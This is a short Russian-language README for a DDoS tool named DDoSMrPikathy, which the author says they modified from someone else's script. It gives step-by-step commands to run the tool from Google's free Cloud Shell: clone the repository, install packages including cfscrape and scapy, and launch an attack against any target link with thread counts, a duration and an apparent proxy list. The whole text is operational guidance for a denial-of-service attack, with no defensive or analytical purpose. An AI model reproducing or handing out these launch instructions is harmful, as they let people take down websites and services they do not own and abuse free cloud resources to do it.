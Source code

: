 # DDoSMrPikathy
Данный скрипт не мой, но он мной изменен.
Для работы данного скрипта вам нужно будет перейти на бесплатный SHELL.
- https://shell.cloud.google.com

Написать следующие команды:

- git clone https://github.com/MrPikathy/DDoSMrPikathy.git
- ls
- cd DDoSMrPikathy
- pip3 install icmplib requests pysocks cfscrape scapy
- python3 start.py

Запуск ддоса:

- python3 start.py CFB Ссылка 1 1000 http.txt 1000 1000

